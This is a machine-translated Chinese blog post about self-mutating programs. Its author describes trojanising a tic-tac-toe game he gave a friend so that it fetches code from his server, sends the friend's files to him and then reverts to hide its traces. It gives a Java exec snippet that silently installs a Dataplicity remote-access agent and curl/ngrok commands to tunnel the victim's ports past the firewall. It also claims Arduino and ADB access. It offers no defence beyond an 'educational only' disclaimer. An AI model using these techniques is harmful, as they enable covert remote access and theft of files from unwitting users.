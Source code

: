 # 自变异程序及其效果

> 原文：<https://medium.com/nerd-for-tech/self-mutating-program-and-its-affects-ea74753978d8?source=collection_archive---------18----------------------->

我先说什么是程序。拜托，每个人都知道:计算机执行来完成特定任务的一组指令——它接受一些数据作为输入，并产生一些输出。一个节目还有其他内容吗？不，我不这么认为。是的，你们中的一些人可能会说，像人工智能这样的程序也可以模仿人类的智能，不按照固定的程序处理数据。是的，我同意。但是即使它们遵循固定的指令集，即使指令非常复杂。

![](img/675888a4631fcf16f5d278b3c6ef600d.png)

现在，从名字上来看，我确实希望大家清楚什么是“自我变异程序”。它是一个可以自己改变指令集的程序。那么，它会有什么影响呢？本质上，现在有 3 个选项:
1。该程序根据特定条件或人工智能生成自己修改的源代码。
2。有人建议对程序进行修改，程序就相应地修改自己。
3。新代码是什么已经在原始代码中指定了。

现在我们来具体情况具体分析。请看案例 1:程序生成自己修改过的源代码。是的，这确实是可能的。我所说的“特定条件”可能是像用户机器架构、特定硬件配置、特定文件的存在或不存在之类的东西。程序可以根据条件生成自己的新源代码。我不打算进入“人工智能”部分，因为我自己也不明白。我对它进行评论是不正确的。

案例二:有人建议编辑。是的，这是我个人最喜欢的一个。想象一下，你下载了一个像井字游戏这样的简单游戏，但是这个游戏自动地把自己变成了一个病毒，能够以任何它想要的方式损害你的系统。这听起来可能是假设，但我自己也写了同样的代码，它运行得非常好。(由于安全问题，该代码尚未公开发布。所以不要指望 GitHub 回购。:-P)。我曾经送给我的朋友一个简单的井字游戏。在他玩游戏的时候，我把修改过的代码存在了一个个人服务器上，游戏自动下载代码，根据代码修改自己，从他的机器上把个人文件发给我，然后自己又变回原来的无害游戏，等待我发出进一步的指令。看起来像好莱坞电影里的情节，对吧？不，不是的。我和一个朋友测试了它，它是完美的。

增加了更多的曲折。现在，告诉我我是如何托管代码的？一个简单的文本文件？是的。我做到了。包含恶意代码的简单文本文件。现在，我的代码是从哪里下载的？我朋友的机器，但我的朋友无论如何都不会知道(除非他检查通过互联网传输的数据包。)那么程序是在哪里变异的呢？我朋友的电脑。因此，当你要查找作者或原始机器的名字时，它会显示我朋友的名字。因此，没有一个单一的痕迹，我，最初的恶意代码的开发者。所以，没有人知道谁是恶意代码的作者。

在继续之前，我想说一下我的技能。我现在是一名大学新生，但我精通 Java(Oracle 认证助理，准确地说是 Java SE 8 程序员)。我对 Linux 和 Windows 命令行操作也有一定的了解。

好了，现在我们继续。再拧一下。希望你们知道数据政策。根据官方网站，“Dataplicity 让你控制、管理和维修你的设备，即使它们在你无法控制的蜂窝、卫星和固定网络之间漫游。”现在，让我们假设我是攻击者，而我的朋友是受害者。

假设我只是改变了原来的井字游戏，只增加了 3 行代码(我是用 Java 说的):

> *try {
> Runtime.getRuntime()。exec("<data policy 安装程序代码>")；
> } catch(excep 除外){}*

我已经在 Dataplicity 中创建了一个帐户，获得了包含安装程序代码的令牌。我刚刚把它加进了恶意的井字游戏里。然后嘣！我可以完全访问我朋友的电脑，而他对此一无所知。在 Dataplicity 安装完成后，我将代码远程还原为原始代码。现在，在我从系统中手动删除对他机器的访问权限之前，我拥有他电脑的永久终端访问权限。他甚至没有删除 Dataplicity 客户端的选项。类似于 data policy 的服务还有很多，但我更喜欢 data policy 本身。

准备好再来几下了吗？现在假设您已经成功地使用自变异代码将 Dataplicity 安装到受害者的设备中。现在你可以把“ngrok”下载到他的机器上，使用你自己的认证令牌并转发他的端口。现在什么是“ngrok”？据官方网站称，Ngrok 通过安全隧道将 NAT 和防火墙后的本地服务器暴露给公共互联网。还有类似 ngrok 的服务，比如 Localtunnel。Ngrok 不提供固定的 URL(在其免费层中),但是 localtunnel 提供。另一方面，设置 localtunnel 需要您拥有对受害者机器的 root 或 sudo 访问权限，而安装 ngrok 则不需要。因此 ngrok 是这里的最佳选择。很简单，curl ngrok 客户端，添加 authtoken。

> *$ curl <到 ngrok 代理 zip>-o ngrok . zip
> $ unzip ngrok . zip
> 的 url。/ngrok AUTHTOKEN<AUTHTOKEN>$。/ngrok http <端口>
> 或者
> $。/ngrok tcp <端口>
> 或
> $。/ngrok tls <端口>*

现在使用 dataplicity 的 ngrok 来暴露受害者计算机的端口。嘣！你也突破了防火墙。

惊心动魄，不是吗？当然了。而且原始游戏甚至不会被普通的抗病毒病毒标记出来，因为它看起来是无害的。当它自身变异时，反病毒软件可能会将其标记出来，但为时已晚。该程序可能已经开始执行，并且可能已经完成了恶意任务。抗病毒药物甚至可能无法标记它。

案例 3:原始程序已经指定了变异后的代码是什么。好吧，这没什么好激动的。这是因为通过这种方式，它只会发生固定且少量的变异。但是，在某些情况下仍然可以使用它。

作为结论，我想说的是，自我变异代码可以为黑客和网络罪犯提供一个巨大的窗口。自变异代码也可用于接入相连的硬件。在工业中，想象一台机器受到它的影响，反过来，它影响工业中所有的 PLC(可编程逻辑控制器)。现在没有一台物理机器正常工作。从工厂到医院，PLC 无处不在。甚至是核电站。想象一下，一小段看似无害的代码，攻破了每一道防火墙，给了攻击者终端访问权限并将代码上传到连接的硬件和 PLC，将私有文件发送给攻击者，等等。可能性就在攻击者的手中。一段无害的代码可以炸毁一座核电站，杀死很多人。这似乎只是好莱坞电影中的一个情节，但事实并非如此。我通过让 Dataplicity 终端访问受害者的机器并使用 arduino-cli，将恶意代码上传到受害者 pc 上连接的 Arduino 中。这表明，超越 PLC 并影响工业机器确实是可能的。还有什么？我还在连接了 ADB 的 android 手机上运行过命令。一切皆有可能。还可以访问受害者机器的私有 WiFi 网络或蓝牙 PAN(个人区域网络)。说真的一切皆有可能。我没有写一行没有测试自己。

小心，注意安全。攻击者的手段越来越多。你应该能保护自己。不幸的是，我不能建议任何方法来抵御这种攻击。这实际上可以成为零日攻击。

P.S .本文仅用于教育目的。这不是黑客教程。

视频演示:

[https://youtu.be/DBKMRpPZdO8](https://youtu.be/DBKMRpPZdO8)
